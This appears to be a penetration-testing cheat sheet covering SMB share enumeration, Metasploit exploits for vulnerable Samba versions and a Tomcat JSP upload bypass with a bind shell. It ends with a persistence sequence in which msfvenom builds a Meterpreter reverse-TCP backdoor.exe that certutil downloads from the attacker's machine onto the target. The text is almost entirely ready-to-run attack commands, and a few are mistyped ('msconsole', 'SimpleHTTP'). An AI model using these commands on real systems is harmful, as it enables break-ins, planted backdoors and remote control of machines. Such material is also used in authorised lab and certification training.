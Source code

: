 ```bash
# list of directories
smbmap -H IP -u USER -p PASS

# navigate in share folders | download file
smbclient //IP/FOLDER_NAME -U USER
get FILE

# enum4linux
enum4linux -a -u USER -p PASS IP
```

### SAMBA exploit

<pre class="language-bash"><code class="lang-bash"><strong># Vuln version 3.0.20
</strong><strong>
</strong><strong># Search vuln version
</strong>## Searchsploit
searchsploit samba 3.0.20

## Metasploit
search samba 3.0.20
use exploit/multi/samba/usermap_script
show info
set RHOSTS IP
exploit
</code></pre>

```bash
# Vuln version 3.5.0 to 4.4.14, 4.5.10 and 4.6.4
use exploit/linux/samba/is_known_pipename
set RHOSTS IP
exploit
```

## 8080

```
# CHECK THE VERSION
searchsploit SERVICE VERSION
```

### Apache Tomcat

#### Tomcat 8.5.19

```bash
service postgresql start && msconsole

use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST
set payload java/jsp_shell_bind_tcp
set SHELL cmd
run

# Persistence Payload
# create payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > backdoor.exe

# transfer payload
python -m SimpleHTTP 80 # attack machine
certutil -urlcache -f http://IP_ATT/backdoor.exe backdoor.exe # target machine

# set handler
use multi/handler
```